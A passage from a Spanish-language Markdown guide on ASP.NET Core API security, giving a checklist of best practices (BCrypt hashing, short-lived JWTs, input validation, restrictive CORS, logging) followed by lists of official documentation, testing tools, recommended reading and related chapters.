| Password hashing | 🔴 Alta | Usar BCrypt con work factor 12 |
| JWT expiración corta | 🔴 Alta | 15-30 minutos para access tokens |
| Validación de entrada | 🔴 Alta | Nunca confiar en inputs del usuario |
| CORS restrictivo | 🟡 Media | Orígenes específicos, no AllowAll |
| Logging de seguridad | 🟡 Media | Registrar eventos importantes |

---

## 28.12. Recursos Adicionales

### Documentación Oficial

- [OWASP API Security Top 10](https://owasp.org/API-Security/)
- [Microsoft Security Guidelines](https://docs.microsoft.com/aspnet/core/security/)
- [JWT.io](https://jwt.io/)
- [Mozilla Security Guidelines](https://wiki.mozilla.org/Security)

### Herramientas de Testing

| Herramienta | Descripción | URL |
|-------------|-------------|-----|
| **curl** | Verificar headers HTTP | - |
| **Postman** | Testing de APIs | https://www.postman.com/ |
| **OWASP ZAP** | Security testing | https://www.zaproxy.org/ |
| **SSL Labs** | Análisis SSL/TLS | https://ssllabs.com/ssltest/ |
| **Security Headers** | Análisis de headers | https://securityheaders.com/ |

### Lecturas Recomendadas

- "Security Engineering" por Ross Anderson
- "The Web Application Hacker's Handbook"
- OWASP Cheat Sheet Series: https://cheatsheetseries.owasp.org/

### Documentos Relacionados

| Documento | Descripción |
|-----------|-------------|
| [14. Autenticación JWT](./netcore/14-autenticacion.md) | Implementación de autenticación JWT |
| [15. Autorización y Roles](./netcore/15-autorizacion.md) | Control de acceso basado en roles |
| [16. Logging](./netcore/16-logging.md) | Logging y monitoreo |
| [21. Testing](./netcore/21-testing.md) | Testing de seguridad |
